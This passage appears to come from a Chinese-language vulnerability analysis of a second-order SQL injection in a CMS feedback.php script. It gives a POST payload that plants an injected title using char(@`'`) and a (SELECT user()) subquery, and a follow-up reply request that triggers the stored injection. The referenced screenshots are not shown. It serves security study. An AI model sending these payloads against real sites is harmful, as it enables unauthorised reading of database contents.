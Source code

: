 ```
action=send&comtype=comments&aid=1&isconfirm=yes&feedbacktype=feedback&face=1&msg=genxor&notuser=1&typeid=1&title=',char(@`'`),1,1,1,1,1,1,1,(SELECT user()))#,(1, 
```

跟踪代码，实际执行的 SQL 语句跟踪变量如下所示： ￼ ![enter image description here](img/img20_u33_png.jpg)

被插入数据库中的内容，如图所示： ￼ ![enter image description here](img/img21_u31_png.jpg)

下面再 POST 如下内容给 feedback.php，

```
action=send&comtype=reply&aid=1&isconfirm=yes&feedbacktype=feedback&fid=50 
```

跟踪一下这里执行的 SQL 语句，如图所示 ￼ ![enter image description here](img/img22_u30_png.jpg)
